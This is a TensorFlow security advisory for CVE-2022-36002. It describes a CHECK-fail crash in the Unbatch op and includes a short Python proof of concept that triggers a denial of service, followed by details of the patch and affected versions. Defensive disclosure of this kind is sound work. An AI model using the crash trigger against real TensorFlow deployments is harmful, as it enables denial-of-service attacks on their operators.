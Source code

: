 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-134.md
## TFSA-2022-134: `CHECK` fail in `Unbatch`

### CVE Number
CVE-2022-36002

### Impact
When `Unbatch` receives a nonscalar input `id`, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
arg_0=tf.constant(value=np.random.random(size=(3, 3, 1)), dtype=tf.float64)
arg_1=tf.constant(value=np.random.randint(0,100,size=(3, 3, 1)), dtype=tf.int64)
arg_2=tf.constant(value=np.random.randint(0,100,size=(3, 3,  1)), dtype=tf.int64)
arg_3=47
arg_4=''
arg_5=''
tf.raw_ops.Unbatch(batched_tensor=arg_0, batch_index=arg_1, id=arg_2, 
                   timeout_micros=arg_3, container=arg_4, shared_name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [4419d10d576adefa36b0e0a9425d2569f7c0189f](https://github.com/tensorflow/tensorflow/commit/4419d10d576adefa36b0e0a9425d2569f7c0189f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
